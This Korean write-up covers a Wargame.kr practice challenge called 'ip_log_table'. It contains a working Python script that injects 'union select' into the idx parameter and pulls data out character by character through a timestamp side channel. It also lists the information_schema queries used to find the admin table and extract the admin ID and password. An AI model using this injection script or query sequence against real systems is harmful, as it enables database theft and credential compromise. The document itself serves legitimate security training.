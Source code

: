 # ip\_log\_table

1. ip\_log\_table 중 하나에 들어가니 TimeStamp로 값이 나타난다.
2. ip주소 옆에 있던 idx값이 전달되서 SQL문에 들어간 이후 그 값이 TimeStamp로 나타나는 것 같다.
3. 여러 실험의 결과 올바르지않은 값에는 TimeStamp가 1970-01-01 09:00:00으로 표시되는걸 볼 수 있다.
4. 따라서 아래와 같은 코드를 작성해 인젝션을 준비하였다. [코드](https://github.com/sunrabbit123/TIL/tree/f35c1dcd3c295d492c3895fd89eff46c83899885/Security/Wargame/Wargame.kr/19.%20ip_log_table/get_data.py)

   \`\`\`python import sys from urllib import request, parse import time, datetime

def to\_timestamp\(string\):

```text
# print("string : " + string)
return int(time.mktime(datetime.datetime.strptime(string, "%Y-%m-%d %H:%M:%S").timetuple()))
```

def get\_ascii\(param\): data = parse.urlencode\({ 'idx' : '77 union select ' + param}\).encode\(\)

```text
# print("data : ",  end = '')
req = request.Request('http://wargame.kr:8080/ip_log_table/chk.php', data = data)
response = request.urlopen(req).read().decode()
# print("req : ", end='')
# print(req)
# print("res : ", end='')
# print(response)

return to_timestamp(response[response.find("<b>") + 3 : response.find("</b")])
```

def get\_length\(query\): return get\_ascii\("length\(%s\)" % query\)

def get\_content\(query\): query = '\(' + query + '\)' content\_len = get\_length\(query\) content = ''

```text
# print(content_len)

if content_len == 0:
    print('Invalid input')
    return ''

for idx in range(1, content_len + 1):
    content += chr(get_ascii('ascii(substr(%s,%d,1))' % (query, idx)))
    sys.stdout.write('\r[' + str(content_len) + '] ' + content + '_' * (content_len - len(content)))

sys.stdout.write('\n')

return content
```

if len\(sys.argv\) &lt; 2: sys.stdout.write\('인자값이 없습니다.'\) exit\(\) print\(sys.argv\[1\]\) content = get\_content\(' '.join\(sys.argv\[1:\]\)\)

```text
```css
1. select count(*) from information_schema.tables
위의 과정을 통해 전체 테이블의 길이를 구한다.

2. select table_name from information_schema.tables limit 0,1
select table_name from information_schema.tables limit 71,1
이 두 과정을 통해 우리가 필요로 하는 테이블이 앞쪽인지 뒤쪽인지 확인한다.
우리가 필요로 하는 값은 뒤에 있으니 70 근처를 훑어보자

3. select table_name from information_schema.tables limit 70,1
보니까 여기에 admin의 정보가 담겨있다.
이를 AdminTable이라고 칭하겠다.

4. select column_name from information_schema.columns where table_name='AdminTable' limit 0, 1
select column_name from information_schema.columns where table_name='AdminTable' limit 1, 1
위 과정을 통해 컬럼을 확인한다
아이디와 비밀번호 컬럼을 발견했다. 

5. select 아이디 from AdminTable
select 비밀번호 from AdminTable
이로써 아이디와 비밀번호를 구했다.
```

위 과정을 통해 얻은 아이디와 비밀번호를 집어넣어 로그인하면 flag값을 얻을 수 있다.

